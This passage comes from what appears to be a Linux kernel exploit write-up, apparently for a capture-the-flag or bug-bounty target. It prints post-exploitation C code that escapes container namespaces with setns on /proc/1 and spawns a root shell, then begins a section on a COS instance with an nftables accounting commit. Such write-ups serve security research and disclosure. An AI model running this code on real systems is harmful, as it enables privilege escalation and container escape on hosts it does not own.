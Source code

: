 After this step, the current exploit can acquire root privilege and escape the namespace container.

### 6.7 Post exploitation

In this step, the exploit succeeds and privileged escalation and container escape is ready. Finally, the exploit performs miscellaneous steps for a container-escaped root shell.

- [exploit/extra-refined/exploit.c#L702](../exploit/extra-refined/exploit.c#L702)
```c
void post_exploit(void)
{
    printf("[+] exploit success!!\n");
    // spin the parent
    if (fork())
    {
        for (;;)
            ;
    }
    // move to safe cpu
    // to prevent access to corrupted freelist
    set_cpu_affinity(1, 0);
    sleep(1);

    // escape pid/mount/network namespace
    setns(open("/proc/1/ns/mnt", O_RDONLY), 0);
    setns(open("/proc/1/ns/pid", O_RDONLY), 0);
    setns(open("/proc/1/ns/net", O_RDONLY), 0);

    printf("[+] now drop the shell\n");

    // drop root shell
    execlp("/bin/bash", "/bin/bash", NULL);
    exit(0);
}
```
After the kernel ROP is done, control flow returns to `post_exploit` function on userland.
The `post_exploit` function performs the following.
- Fork the process and spin the parent process. This is to avoid touching corrupted percpu freelist by parent process or other tasks as possible.
- On the child process, change the task's CPU affinity to avoid touching the original CPU's corrupted percpu freelist.
- Call `setns(open("/proc/1/ns/{mnt, pid, net}", O_RDONLY), 0)` and switch the current task's mount/pid/network namespaces into container-root process's one to escape from containers
- Call `system(“/bin/bash”)` to drop root-privileged host shell.

After these steps, the exploitation is finished and we can read the flag from the root directory with the root shell.

## 7. COS-15-17412-101.17 Instance

In this section, we discuss the exploit in detail for `cos-105-17412.101.17` instances.

- Linux commit [33758c891479ea1c736abfee64b5225925875557](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=33758c891479ea1c736abfee64b5225925875557)
>
> nftables replaces iptables, but it lacks memcg accounting.
> 
> This patch account most of the memory allocation associated with nft and should protect the host from misusing nft inside a memcg restricted container.
>
